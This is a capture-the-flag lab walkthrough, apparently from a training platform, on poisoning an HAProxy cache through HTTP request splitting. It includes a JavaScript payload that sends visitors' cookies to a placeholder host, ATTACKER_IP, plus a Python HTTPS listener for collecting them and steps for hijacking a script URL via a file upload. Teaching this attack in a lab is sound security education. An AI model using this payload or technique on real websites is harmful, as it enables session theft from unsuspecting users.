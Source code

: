 ## Web Cache Poisoning

Even if we can't influence other users' connections directly, we may be able to use request tunneling to poison server-side caching mechanisms, affecting users indirectly. This kind of attack has a high severity as it impacts all users visiting the website for as long as the cached content lasts. Given the right conditions, the poisoned cached content can have anything the attacker wants, including JavaScript payloads. This can be used to issue malicious redirects or even steal user sessions.

> **Note:** Extreme care needs to be taken when testing web cache poisoning in real-world production systems, as they may affect the availability of the website if not conducted properly.

### Understanding the Scenario

For this task, we are still using **HAProxy**. The HAProxy instance is configured to cache content for **30 seconds**, so we should be able to perform the attack. If something gets cached wrongly during testing, waiting for 30 seconds will clear the cache so you can start from scratch.

To achieve cache poisoning, we want to make a request to the proxy for `/page1` and somehow force the backend web server to respond with the contents of `/page2`. If this were to happen, the proxy would wrongly associate the URL of `/page1` with the cached content of `/page2`.

The trick we are using allows poisoning the cache only with the content of other pages on the same website. However, there are ways to overcome this limitation:

- If the website has an **upload functionality**.
- If we find a **part of the website that reflects content from a request parameter** (e.g., blog articles).
- Under certain circumstances, **open redirects** can also be abused (not covered in this case).

In our application, we have an upload functionality at `/upload`, allowing us to upload any payload we want cached later.

### File Uploads

#### **Executing the Plan**

Our goal in this task is to **steal cookies** from any user visiting `https://MACHINE_IP:8100/`. The lab already simulates a victim user, and the flag for this task is in that user's cookies.

A direct cache poisoning attack on `/` is possible but too obvious. Instead, inspecting `/` reveals that it calls the `showText()` JavaScript function from `/static/text.js`. 

#### **Poisoning /static/text.js**

We will inject a JavaScript payload to steal cookies. First, we upload the following script as `myjs.js`:

```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://ATTACKER_IP:8002/?c="+document.cookie, true);
xhttp.send();
```

> **Replace `ATTACKER_IP` with your actual AttackBox IP.**

After uploading, the file is stored at `/static/uploads/myjs.js`. Now, we need to poison the cache so that requests for `/static/text.js` return our payload.

#### **HTTP Request Splitting to Poison the Cache**

Using a CRLF injection vulnerability in HAProxy, we perform **request splitting** in the backend. The first backend request fetches `/static/text.js`, while the second fetches `/static/uploads/myjs.js`. The proxy expects a single response but gets two. The first is served to the user, and the second is queued.

To force the proxy to bypass existing cache and send the request to the backend, we use:

```http
Pragma: no-cache
```

After sending another request for `/static/text.js`, the queued response (`myjs.js`) is incorrectly associated with `/static/text.js`, poisoning the cache for **30 seconds**.

#### **Verifying the Attack**

To check if the attack worked, use:

```sh
curl -kv https://MACHINE_IP:8100/static/text.js
```

> **Don't use a browser!** Browsers cache content locally, which might alter the response.

### Receiving the Flag

Once poisoned, when the victim visits `/`, their cookies will be sent to our **AttackBox on port 8002 via HTTPS**. We need an HTTPS web server to capture the cookies.

#### **Generating an SSL Certificate**

Run the following command to create an SSL certificate:

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes \
-subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

#### **Setting Up the HTTPS Web Server**

Create `https.py`:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler 
import ssl

httpd = HTTPServer(('0.0.0.0', 8002), BaseHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(
    httpd.socket,
    keyfile="key.pem",
    certfile='cert.pem',
    server_side=True)
httpd.serve_forever()
```

Run the server:

```sh
python3 https.py
```

The victim visits `/` every **20 seconds**, so the flag should appear soon. If not, re-poison the cache.

### Summary

1. **Upload** malicious JavaScript (`myjs.js`).
2. **Exploit HTTP request splitting** to associate `/static/text.js` with `myjs.js`.
3. **Check poisoning success** using `curl`.
4. **Set up an HTTPS server** to capture the victim's cookies.
5. **Receive the flag** when the victim visits `/`.

This attack highlights the dangers of **cache poisoning vulnerabilities** in HAProxy and similar proxy servers.